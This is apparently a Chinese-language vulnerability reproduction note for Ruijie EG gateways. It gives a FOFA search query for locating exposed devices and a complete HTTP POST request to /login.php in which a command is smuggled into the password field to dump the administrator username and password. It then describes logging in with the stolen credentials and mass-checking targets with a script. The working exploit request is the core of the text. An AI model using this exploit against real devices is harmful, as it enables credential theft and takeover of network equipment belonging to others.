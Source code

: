 # 影响范围：
锐捷EG易网关
# FOFa dork：
app="Ruijie-EG易网关"
# 漏洞复现：
登录页面：
![image](images/login.png)
访问漏洞地址/login.php，使用burpsuite进行抓包，变更发包方式为POST，并添加POST数据，请求包如下：
```
POST /login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

username=admin&password=admin?show+webmaster+user
```
成功获取管理员账号密码：  
![image](images/burp.png)
使用获得的账号密码成功登录：  
![image](images/houtai.png)
使用脚本进行批量验证：  
![image](images/script.png)


